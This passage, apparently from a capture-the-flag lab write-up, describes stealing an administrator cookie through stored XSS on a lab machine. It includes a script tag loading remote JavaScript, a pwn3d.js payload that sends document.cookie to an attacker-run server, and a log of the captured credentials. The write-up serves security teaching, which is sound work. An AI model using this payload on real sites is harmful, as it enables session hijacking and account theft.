 With a transfer test I can check that it is very likely that an automatic task has been configured on the server to handle this functionality. With a small **[XSS](https://portswigger.net/web-security/cross-site-scripting){:target="_blank"}** injection I manage to get a request to a local server started with `python` on my machine, so I can try to **[steal a cookie](https://deephacking.tech/exploiting-cross-site-scripting-to-steal-cookies-portswigger-write-up/){:target="_blank"}** via **[XSS](https://portswigger.net/web-security/cross-site-scripting){:target="_blank"}**. I will use **BurpSuite** to capture the request and investigate a little bit what data is sent to the web server, then I will create a **[.js file](https://javascript.info/xmlhttprequest){:target="_blank"}** with the necessary code to attempt the steal and with `python` I start again the local server so that my malicious file is accessible from the victim machine. In the **Proxy** tab of **BurpSuite** I can see that the authentication related data travels in **Base64** encoding. The first time I fail to get the cookie, but after correcting my **.js script** (problems with the use of single quotes) I achieve my goal.

> **[Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting){:target="_blank"}** (also known as **XSS**) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to **circumvent** the same origin policy, which is designed to segregate different websites from each other. **Cross-site scripting vulnerabilities** normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data.

```bash
# https://10.10.10.154/user/
# Transfer on hold. An admin will review it within a minute.    :)

python3 -m http.server 80
# https://10.10.10.154/user/
# <script src="http://10.10.14.2/oldboy"></script>

burpsuite &>/dev/null & disown

nvim pwn3d.js
cat !$
python3 -m http.server 80
# https://10.10.10.154/user/
# Transfer E-coin
# BurpSuite --> Cookie: id=3; username=b2xkYm95; password=b2xkYm95MTIz
# :(

nvim pwn3d.js
cat !$
```

> **pwn3d.js**:

```js
var req = new XMLHttpRequest();
req.open("GET",'http://10.10.14.10/?cookie=' + document.cookie, true);
req.send();
```

```bash
# 10.10.10.154 - - [03/Jul/2025 17:12:49] "GET /?cookie=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1" 200 -
```
